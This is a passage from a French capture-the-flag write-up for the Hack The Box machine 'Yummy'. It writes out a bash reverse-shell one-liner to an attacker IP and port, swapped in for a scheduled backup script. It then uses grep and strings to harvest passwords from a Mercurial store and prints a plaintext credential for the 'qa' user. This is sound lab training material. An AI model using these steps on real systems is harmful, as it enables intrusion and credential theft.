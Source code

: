 ```
mv app_backup.sh app_backup.sh.one

echo 'bash -i >& /dev/tcp/{IP}/{PORT} 0>&1' > revshell.sh

mv revshell.sh app_backup.sh
```

![www-data privilege escaltion](/images/HTB-Yummy/privesc_wdata.png)

Après environ une minute, nous avons un shell sous le nom de `www-data`.

![www-data shell](/images/HTB-Yummy/shell_wdata.png)

### Shell en tant que qa

Dans `/var/www/app-qatesting` nous trouvons un répertoire caché `.hg`.

![hg directory](/images/HTB-Yummy/hg_dir.png)

Cherchons des mots de passe avec `grep`.

```
grep -rni "password" .
```

![grep command](/images/HTB-Yummy/grep_match.png)

`grep` identifie une correspondance dans un fichier binaire, par défaut il n'affiche pas son contenu. Nous pouvons y remédier avec l'option `-- text`.

```
grep -arni --text "password" .
```

![passwords found](/images/HTB-Yummy/pwds_found.png)

Deux mots de passe sont trouvés, le premier est le mot de passe de l'utilisateur `chef`. Comme nous avons affaire à un fichier binaire, nous utilisons `strings` pour afficher les résultats.

```
strings ./store/data/app.py.i | grep -A 10 -B 5 "password"
```

Nous découvrons le mot de passe de l'utilisateur `qa`.

```
qa:jPAd!XQCtn8Oc@2B
```

![user qa credentials](/images/HTB-Yummy/qa_creds.png)

Nous nous connectons avec succès en tant que `qa` avec ces informations d'identification via SSH.

![user flag](/images/HTB-Yummy/user_text.png)

### Shell en tant que dev
